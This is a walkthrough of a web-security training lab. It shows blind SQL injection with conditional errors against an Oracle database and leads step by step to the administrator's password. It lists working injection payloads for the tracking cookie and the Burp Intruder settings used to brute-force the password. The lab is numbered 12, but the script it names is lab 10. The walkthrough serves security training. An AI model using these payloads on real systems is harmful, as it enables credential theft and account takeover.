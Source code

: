 # SQL Injection Lab 12 - Blind SQL injection with conditional errors

## Manual Solution

### 1. Access the lab in Web Security Academy

### 2. Initial Setup:
   - Open Burp Suite and intercept a GET request to the website
   - Send the captured request to Repeater for testing

### 3. Verify SQL Injection Vulnerability:
   - Add trackingID parameter: `'||(SELECT '')||'`
   - We saw an error in the response

### 4. Confirm database type:
   - Add trackingID parameter: `'||(SELECT '' FROM dual)||'`
   - We don't see an error in the response
   - We can assume that the database is Oracle

### 5. Determine Administrator User Exists:
   - Add trackingID parameter: `'||(SELECT '' FROM users WHERE username = 'administrator')||'`
   - We don't see an error in the response
   - We can assume that the administrator user exists
   
### 6. Determine Administrator User Exists with conditional errors:
   - Add trackingID parameter: `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
   - We see internal server error in the response
   - So if the condition is true, we will see an internal server error

### 7. Determine Password Length:
   - Add trackingID parameter: `'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
   - Use Intruder with:
     * Payload position: `1`
     * Payload type: Numbers (1-60)
   - Password length is identified where response lengths change

### 8. Extract Password Characters:
   - Add trackingID parameter: `'||(SELECT CASE WHEN (SUBSTR(password,1,1) = 'a') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
   - Configure Intruder:
     * First position: `SUBSTR(password,[position],1)`
       - Payload type: Numbers (1 to password length)
     * Second position: Character to test
       - Payload type: Brute forcer (a-z, 0-9)
   - Identify correct characters by analyzing response lengths

### 9. Login:
   - Use extracted password to login as administrator
   - Verify successful access to admin account

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_10.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
